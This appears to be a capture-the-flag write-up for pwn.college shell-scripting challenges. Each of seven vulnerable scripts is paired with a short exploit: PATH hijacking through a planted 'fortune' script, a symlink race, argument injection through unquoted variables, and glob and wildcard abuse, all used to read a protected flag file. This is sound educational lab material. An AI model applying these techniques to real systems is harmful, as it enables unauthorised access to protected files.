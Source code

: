 # The Transient Path

### chall

```sh
#!/opt/pwn.college/sh

fortune
```

### exploit
```
create shell script named 'fortune' in /home/hacker with content "cat /flag"
```

# Ferocious Functionality

### chall

```sh
#!/opt/pwn.college/bash

unset PATH
did you think you could hack this? It doesnt even exist!
```

### exploit
```sh
ln -s fortune did
```

last location where bash looks at for binary is current working directory

# The Surprising Swap

### chall
```sh
#!/usr/bin/env -iS /opt/pwn.college/bash

[ "$1" == "ping" ] && echo "pinged!" && read && "$0" pong
[ "$1" == "pong" ] && echo "ponged!"
```

### exploit
run /challenge/run via symlink
while /challenge/run is waiting for newline, swap symlink with 'cat /flag'

# Path of the Unquoted

### chall
```sh
#!/usr/bin/env -iS /opt/pwn.college/sh

PATH=/usr/bin

[ -n "$1" ] || exit 1
[ "$1" = "flag" ] && exit 2
[ $1 = "flag" ] && cat /flag

echo "Goodbye!"
```

### exploit
```sh
/challenge/run "1 = 1 -o flag"
```
due to unquoted expansion, was able to substitute $1 with any string

# Globbing Harmony

### chall
```sh
#!/usr/bin/env -iS /opt/pwn.college/sh

PATH=/usr/bin
cd /tmp
cat /flag | tr -d [A-Za-z0-9]
```

### exploit
```sh
touch /tmp/9
/challenge/run
```
"filename expansion" is used in tr command, which replaces that glob with matching file name, in our case by 9, and then truncates only character '9'.

# Zen of Expansion

### chall
```sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin

pretty_cat () {
	HEADER="Here is /etc/passwd!"
	FILE="/etc/passwd"
	[ -n "$1" ] && HEADER="$1" && shift
	[ -n "$1" ] && FILE="$1" && shift

	echo "####### $HEADER ########"
	cat "$FILE"
}

[ "$#" -eq 1 ] || exit 1
pretty_cat $*
```

### exploit
```sh
/challenge/run "a /flag"
```
unquoted expansion of $* leads to supplying second parameter to pretty_cat function, causing second parameter to move to FILE variable.

# Way of the Wildcard

### chall
```sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin

read FLAG < /flag
[[ "$FLAG" = $1 ]] && cat /flag
echo "Goodbye!"
```

### exploit
```sh
/challenge/run "*"
```
'*' is a wildcard, expanding to any possible string